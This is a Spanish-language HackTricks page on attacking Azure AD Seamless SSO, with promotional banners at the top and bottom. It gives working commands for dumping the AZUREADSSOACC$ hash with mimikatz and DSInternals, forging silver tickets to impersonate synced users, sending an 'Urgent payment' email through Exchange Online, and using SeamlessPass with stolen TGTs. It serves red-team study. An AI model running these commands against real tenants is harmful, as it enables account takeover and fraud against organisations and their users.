 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

[De la documentación:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **firma automáticamente a los usuarios cuando están en sus dispositivos corporativos** conectados a su red corporativa. Cuando está habilitado, **los usuarios no necesitan escribir sus contraseñas para iniciar sesión en Azure AD**, y generalmente, ni siquiera escribir sus nombres de usuario. Esta función proporciona a sus usuarios un acceso fácil a sus aplicaciones basadas en la nube sin necesidad de componentes adicionales en las instalaciones.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Básicamente, Azure AD Seamless SSO **firma a los usuarios** cuando están **en un PC unido a un dominio local**.

Es compatible tanto con [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) como con [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

El SSO de escritorio utiliza **Kerberos** para la autenticación. Cuando se configura, Azure AD Connect crea una **cuenta de computadora llamada AZUREADSSOACC`$`** en el AD local. La contraseña de la cuenta `AZUREADSSOACC$` es **enviada como texto plano a Azure AD** durante la configuración.

Los **tickets de Kerberos** son **encriptados** usando el **NTHash (MD4)** de la contraseña y Azure AD utiliza la contraseña enviada para desencriptar los tickets.

**Azure AD** expone un **endpoint** (https://autologon.microsoftazuread-sso.com) que acepta **tickets** de Kerberos. El navegador de la máquina unida al dominio reenvía los tickets a este endpoint para SSO.

### Local -> nube

La **contraseña** del usuario **`AZUREADSSOACC$` nunca cambia**. Por lo tanto, un administrador de dominio podría comprometer el **hash de esta cuenta**, y luego usarlo para **crear tickets de plata** para conectarse a Azure con **cualquier usuario local sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con el hash ahora puedes **generar tickets de plata**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar el ticket plateado, se deben ejecutar los siguientes pasos:

1. **Iniciar el Navegador:** Se debe lanzar Mozilla Firefox.
2. **Configurar el Navegador:**
* Navegar a **`about:config`**.
* Establecer la preferencia para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) a los [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Acceder a la Aplicación Web:**
* Visitar una aplicación web que esté integrada con el dominio AAD de la organización. Un ejemplo común es [Office 365](https://portal.office.com/).
4. **Proceso de Autenticación:**
* En la pantalla de inicio de sesión, se debe ingresar el nombre de usuario, dejando el campo de contraseña en blanco.
* Para continuar, presionar TAB o ENTER.

{% hint style="success" %}
Esto no elude MFA si está habilitado
{% endhint %}

#### Opción 2 sin dcsync - SeamlessPass

También es posible realizar este ataque **sin un ataque dcsync** para ser más sigiloso, como [se explica en esta publicación de blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Para eso solo necesitas uno de los siguientes:

* **Un TGT de un usuario comprometido:** Incluso si no tienes uno pero el usuario fue comprometido, puedes obtener uno utilizando el truco de delegación de TGT falso implementado en muchas herramientas como [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) y [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Si tienes la clave KRBTGT, puedes crear el TGT que necesitas para el usuario atacado.
* **El hash NTLM o la clave AES de un usuario comprometido:** SeamlessPass se comunicará con el controlador de dominio con esta información para generar el TGT.
* **Hash NTLM o clave AES de la cuenta AZUREADSSOACC$:** Con esta información y el Identificador de Seguridad (SID) del usuario a atacar, es posible crear un ticket de servicio y autenticarte con la nube (como se realizó en el método anterior).

Finalmente, con el TGT es posible usar la herramienta [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) con:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Más información para configurar Firefox para trabajar con SSO sin problemas se puede [**encontrar en esta publicación de blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Creando tickets de Kerberos para usuarios solo en la nube~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si los administradores de Active Directory tienen acceso a Azure AD Connect, pueden **configurar SID para cualquier usuario en la nube**. De esta manera, los **tickets** de Kerberos **también se pueden crear para usuarios solo en la nube**. El único requisito es que el SID sea un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adecuado.

{% hint style="danger" %}
Cambiar el SID de los usuarios administradores solo en la nube ahora está **bloqueado por Microsoft**.\
Para más información, consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Nube a través de Delegación Constrainada Basada en Recursos <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Cualquiera que pueda gestionar cuentas de computadora (`AZUREADSSOACC$`) en el contenedor u OU en el que se encuentra esta cuenta, puede **configurar una delegación constrainada basada en recursos sobre la cuenta y acceder a ella**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Estoy en tu nube, leyendo los correos electrónicos de todos - hackeando Azure AD a través de Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
